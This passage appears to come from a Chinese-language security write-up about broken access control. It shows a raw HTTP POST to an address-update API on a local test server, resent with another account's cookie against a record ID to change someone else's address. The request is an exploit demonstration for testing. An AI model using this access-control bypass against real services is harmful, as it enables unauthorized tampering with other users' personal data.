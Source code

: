 ![](./images/12.png)

> 替换身份使用python重新发起请求

```
POST /rest/parentrest/api/pc/address/update HTTP/1.1
Host: 127.0.0.1:8001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 268
Origin: http://127.0.0.1:8001
Connection: keep-alive
Referer: http://127.0.0.1:8001/student/setting
Cookie: "B账号的cookie"

customerName=%E5%8F%B6%E9%97%AE&customerMobile=15166667775&province=%E5%8C%97%E4%BA%AC&city=%E5%8C%97%E4%BA%AC%E5%B8%82&district=%E4%B8%9C%E5%9F%8E%E5%8C%BA&address=%E5%A4%A7%E6%82%A6%E5%9F%8E21s%26amp%3Bamp%3Bamp%3Bamp%3Ba&zipcode=290122&isDefault=1&id=21618
```
